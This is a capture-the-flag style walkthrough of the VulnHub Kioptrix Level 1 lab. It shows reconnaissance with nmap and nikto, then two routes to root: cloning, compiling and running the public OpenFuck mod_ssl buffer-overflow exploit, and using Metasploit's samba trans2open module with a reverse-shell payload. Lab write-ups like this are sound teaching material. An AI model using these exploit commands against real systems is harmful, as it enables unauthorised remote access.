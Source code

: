 ```yaml
---
layout: post
title: "Kioptrix Level 1"
date: 2022-02-04
categories: [VulnHub, Easy-VulnHub]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix Level 1/kioptrix.png 

---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|[Kioptrix Level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using netdiscover tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![netdiscover](../../assets/img/posts/Kioptrix Level 1/netdiscover.png)

Okay, so the IP address of the box is 10.0.2.21.

Now, let's start port scanning with **nmap**,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.21
```

![nmap1](../../assets/img/posts/Kioptrix Level 1/nmap1.png)
![nmap2](../../assets/img/posts/Kioptrix Level 1/nmap2.png)

there are multiple open ports present. We'll enumerate them individually.

Since we know that this box is running a webserver which host a website, so we'll first see how many technologies are running on website with whatweb tool,

```bash
whatweb http://10.0.2.21
```

![whatweb](../../assets/img/posts/Kioptrix Level 1/whatweb.png)

this is running mod_ssl (exploit) impressive :0. Let's enumerate it more.

let's visit http://10.0.2.21,

![web1](../../assets/img/posts/Kioptrix Level 1/web1.png)

that's a simple apache installation text page.

let's visit https://10.0.2.21 as well,

![web2](../../assets/img/posts/Kioptrix Level 1/web2.png)

we can see that this is a same page which we encountered before on port 80.

Let's run **nikto** tool to scan website for vulnerabilities,

```bash
nikto --host http://10.0.2.21
```

![nikto1](../../assets/img/posts/Kioptrix Level 1/nikto1.png)

there are many things to look for but the thing which takes my attention is this website is vulnerable to **mod_ssl 2.8.4 exploit**.

![nikto2](../../assets/img/posts/Kioptrix Level 1/nikto2.png)

We can take a look at this exploit code on https://www.exploit-db.com/exploits/764 and this exploit's name is OpenFuckV2. This mod_ssl vulnerability allows buffer overflow to gain remote shell.

Let's look at the how this exploit work and download this exploit from github https://github.com/heltonWernik/OpenLuck

![web3](../../assets/img/posts/Kioptrix Level 1/web3.png)

follow the steps in usage image from github to fireup the exploit,

```bash
git clone https://github.com/heltonWernik/OpenLuck.git
cd Openluck
sudo apt-get install libssl-dev
compiling exploit,
gcc -o OpenFuck OpenFuck.c -lcrypto
```

let's see how this exploit works,

```bash
./OpenFuck
```

![openluck](../../assets/img/posts/Kioptrix Level 1/openluck.png)

seems like we've to first we've to provide supported offset of the version running on the box.

we'll use RedHat linux 7.2 version offset 0x6b,

```bash
./OpenFuck 0x6b 10.0.2.21 443 -c 41
```

![openluck2](../../assets/img/posts/Kioptrix Level 1/openluck2.png)

we got ROOT!!!

Note: This exploit might take 2-3 tries to get you a shell, so try hard ;).

## Metasploit Method

Let's fireup the metasploit framework using `msfconsole` and we'll look how to exploit this box.

we'll search for samba exploit modules in msfconsole,

```bash
search linux samba
```

![msf1](../../assets/img/posts/Kioptrix Level 1/msf1.png)

okay, so we got trans2open exploit and we're going to use that to gain a system access.

```bash
use exploit/linux/samba/trans2open
```

![msf2](../../assets/img/posts/Kioptrix Level 1/msf2.png)

we can see that our payload is automatically assigned as generic/shell_reverse_tcp, if not, then set it using `set payload generic/shell_reverse_tcp`.

now type `options` to show list of options we have in this module,

![msf3](../../assets/img/posts/Kioptrix Level 1/msf3.png)

here we'll set RHOSTS to our kioptrix box's IP. To set this ip, type `set rhosts 10.0.2.21` and then fireup the module using `exploit`,

![msf4](../../assets/img/posts/Kioptrix Level 1/msf4.png)
![msf5](../../assets/img/posts/Kioptrix Level 1/msf5.png)

we got system shell!!

**Note: After firing up this exploit, it might take some time get root shell. Have patience and if it doesn't work then try again.**

We saw both methods, i.e. Manual method by using OpenFuckV2 exploit and Automated Method using Metasploit Framework to exploit this box.
